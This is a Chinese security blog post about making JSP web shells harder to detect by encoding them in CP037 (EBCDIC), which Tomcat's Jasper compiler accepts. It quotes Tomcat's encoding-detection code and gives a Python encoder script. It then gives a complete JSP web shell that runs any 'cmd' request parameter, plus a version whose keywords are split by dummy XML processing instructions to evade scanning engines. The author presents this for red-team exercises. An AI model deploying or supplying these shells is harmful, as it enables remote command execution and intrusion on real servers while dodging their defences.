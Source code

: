 @Author：Y4tacker

# 一次jsp的奇异探索

## 写在前面

本篇没有能绕过某引擎，但因为觉得比较好玩，就分享给大家，觉得某天大家hvv或许能用到呢？

本篇文章是详细记录了自己从开始尝试到失败到成功的全过程，引入自己的思考过程，东西比较简单

在施展了一些奇妙神奇姿势后，我技穷了，在本打算躺平后突然想到之前我用过utf16编码jsp也是能成功解析，之后我又想支不支持一些其他的编码呢？

答案是yes，接着往下看

## 探索

在tomcat中的`org/apache/jasper/compiler/EncodingDetector`

这里把支持的编码都列出来了

```java
    private BomResult parseBom(byte[] b4, int count) {

        if (count < 2) {
            return new BomResult("UTF-8", 0);
        }

        // UTF-16, with BOM
        int b0 = b4[0] & 0xFF;
        int b1 = b4[1] & 0xFF;
        if (b0 == 0xFE && b1 == 0xFF) {
            // UTF-16, big-endian
            return new BomResult("UTF-16BE", 2);
        }
        if (b0 == 0xFF && b1 == 0xFE) {
            // UTF-16, little-endian
            return new BomResult("UTF-16LE", 2);
        }

        // default to UTF-8 if we don't have enough bytes to make a
        // good determination of the encoding
        if (count < 3) {
            return new BomResult("UTF-8", 0);
        }

        // UTF-8 with a BOM
        int b2 = b4[2] & 0xFF;
        if (b0 == 0xEF && b1 == 0xBB && b2 == 0xBF) {
            return new BomResult("UTF-8", 3);
        }

        // default to UTF-8 if we don't have enough bytes to make a
        // good determination of the encoding
        if (count < 4) {
            return new BomResult("UTF-8", 0);
        }

        // Other encodings. No BOM. Try and ID encoding.
        int b3 = b4[3] & 0xFF;
        if (b0 == 0x00 && b1 == 0x00 && b2 == 0x00 && b3 == 0x3C) {
            // UCS-4, big endian (1234)
            return new BomResult("ISO-10646-UCS-4", 0);
        }
        if (b0 == 0x3C && b1 == 0x00 && b2 == 0x00 && b3 == 0x00) {
            // UCS-4, little endian (4321)
            return new BomResult("ISO-10646-UCS-4", 0);
        }
        if (b0 == 0x00 && b1 == 0x00 && b2 == 0x3C && b3 == 0x00) {
            // UCS-4, unusual octet order (2143)
            // REVISIT: What should this be?
            return new BomResult("ISO-10646-UCS-4", 0);
        }
        if (b0 == 0x00 && b1 == 0x3C && b2 == 0x00 && b3 == 0x00) {
            // UCS-4, unusual octet order (3412)
            // REVISIT: What should this be?
            return new BomResult("ISO-10646-UCS-4", 0);
        }
        if (b0 == 0x00 && b1 == 0x3C && b2 == 0x00 && b3 == 0x3F) {
            // UTF-16, big-endian, no BOM
            // (or could turn out to be UCS-2...
            // REVISIT: What should this be?
            return new BomResult("UTF-16BE", 0);
        }
        if (b0 == 0x3C && b1 == 0x00 && b2 == 0x3F && b3 == 0x00) {
            // UTF-16, little-endian, no BOM
            // (or could turn out to be UCS-2...
            return new BomResult("UTF-16LE", 0);
        }
        if (b0 == 0x4C && b1 == 0x6F && b2 == 0xA7 && b3 == 0x94) {
            // EBCDIC
            // a la xerces1, return CP037 instead of EBCDIC here
            return new BomResult("CP037", 0);
        }

        // default encoding
        return new BomResult("UTF-8", 0);
    }

```

为了获得更多的在jsp中的乱码，这里我关注到了cp037

## 简单的尝试

掏出抠脚的python技术，一顿乱敲

```python
data = '''<%
    Runtime.getRuntime().exec("open -na Calculator");
%>'''.encode("cp037")

with open("y4tacker.jsp", "wb") as f:
    f.write(data)
```

心满意足的看着自己生成的看不懂的宝贝，这不赶紧拿到tomcat目录下试一试

![](img/1.png)

哈？原封不动输出了，这时候意识到了我可能少了一些小细节

![](img/2.png)

再回头去看，这前四个字节还有要求的哦

```java
if (b0 == 0x4C && b1 == 0x6F && b2 == 0xA7 && b3 == 0x94) {
            return new BomResult("CP037", 0);
}
```

简单的编程

![](img/3.png)

看到了结果，`<?xm`要求是这个开头，很容易我想到了xml，很显然jsp支持xml格式编写

![](img/4.png)

## 新的问题

这时候按照要求，我写出了新的代码，并按照上面的脚本转化编码格式

```jsp
<?xml version="1.0" encoding="cp037" ?>
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
          version="1.2">
    <jsp:directive.page contentType="text/html"/>
    <jsp:directive.page import="java.io.*"/>
    <jsp:declaration>
    </jsp:declaration>
    <jsp:scriptlet>
Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
BufferedReader input = new BufferedReader(new InputStreamReader(p.getInputStream()));
String line = "";
while ((line = input.readLine()) != null) {
  out.write(line+"\n");
}
</jsp:scriptlet>
    <jsp:text>
    </jsp:text>
</jsp:root>
```

这次成功了，但是没能绕过某引擎不甘心

![](img/5.png)

## 继续探索

猜测会不会是我的特征太明显了，这里我想有没有一些更骚的东西，后面发现处理不存在的XML元素会置空

得到最终

```jsp
<?xm?>
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
          version="1.2">
    <jsp:directive.page contentType="text/html"/>
    <jsp:directive.page import="java.io.*"/>
    <jsp:declaration>
    </jsp:declaration>
    <jsp:scriptlet>
Pro<?wtyn?>cess p = Run<?wtyn?>time.get<?wtyn?>Run<?wtyn?>ti<?wtyn?>me().exe<?wtyn?>c(request.getParameter("cmd"));
Buffer<?wtyn?>edRead<?wtyn?>er input = ne<?wtyn?>w Buff<?wtyn?>eredR<?wtyn?>eader(new InputSt<?foo?>ream<?wtyn?>Reader(p.getI<?wtyn?>nputSt<?foo?>ream()));
String line = "";
while ((l<?wtyn?>ine = input.read<?wtyn?>Line()) != null) {
  out.w<?wtyn?>rite(line+"\n");
}
</jsp:scriptlet>
    <jsp:text>
    </jsp:text>
</jsp:root>
```

编码为cp037后再试试，

![](img/7.png)

也是成功执行了的

![](img/6.png)虽然这里也没有能绕过引擎，但未来如果遇到一些处理不好的引擎，说不定能大放光彩

